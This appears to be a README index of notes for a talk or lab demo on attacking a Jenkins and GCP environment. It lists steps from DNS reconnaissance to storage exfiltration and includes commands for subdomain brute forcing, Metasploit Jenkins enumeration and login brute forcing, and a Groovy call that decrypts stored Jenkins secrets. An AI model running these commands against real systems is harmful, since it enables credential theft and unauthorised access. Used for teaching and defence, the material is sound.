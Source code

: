# Notes

## Agenda
1. [Getting To Know / DNS Recon](./02_gettingKnow.md)
2. [Jenkins Enum](./03_jenkinsEnum.md)
3. [Jenkins BruteForce](./04_jenkinsBruteforce.md)
4. [Jenkins Recon / Secret Decrypt](./05_jenkinsDecrypt.md)
6. [GCP Login / Lookaround](./06_cloudAccess.md)
7. [Kubernetes Lookaround](./07_kubernetesLookaround.md)
8. [Storage Exfiltrate](./08_storageExfiltrate.md)

## Some Notes IC-ME

### DNS Reconnaissance
```bash
dnsrecon -t brt -d nevervictimconsult.xyz --threads 25 -D /usr/share/wordlists/subdomains-top1million-5000.txt
```

### Jenkins BruteForce
```bash
[...]
use auxiliary/scanner/http/jenkins_enum
[...]
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
[...]
use auxiliary/scanner/http/jenkins_login
```

### Cloud Access
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

